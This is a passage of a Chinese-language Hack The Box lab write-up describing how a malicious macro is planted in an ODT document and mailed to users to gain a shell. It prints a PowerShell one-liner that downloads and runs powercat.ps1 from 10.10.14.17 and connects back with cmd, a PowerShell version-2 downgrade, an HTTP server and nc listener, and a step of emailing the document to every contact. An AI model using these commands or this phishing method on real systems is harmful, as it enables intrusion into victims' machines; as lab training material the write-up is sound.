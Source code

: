 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)将文档后缀名修改为`.zip`并将其解压

```
mv msf.odt msf.zip  

```

解压后找到`Basic/Standard/`目录并编辑文件`Module1.xml`修改`payload`

```
powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 1234 -e cmd  

```

但是由于 powershell 的限制，我们需要将其版本修改为 2

```
powershell.exe -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 1234 -e cmd;  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)将 powercat.ps1 复制到本目录下并开启 http 服务

```
cp /root/hackthebox/Machines/Jeeves/powercat.ps1 .  
python -m SimpleHTTPServer 80  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在本地监听1234端口

```
nc -nvlp 1234  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### 邮件发送

选择邮件发送但是无法上传文件。后来发现我们需要在登录口选择轻量版进入才可以上传文件![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

将用户切换为 Ariel 后上传文件并向每个联系人发送邮件![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### 反弹shell

经过漫长的等待之后成功反弹shell![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在当前用户桌面上寻找第一个flag

```
dir C:\Users\Raziel\Desktop  
type C:\Users\Raziel\Desktop\user.txt  

```

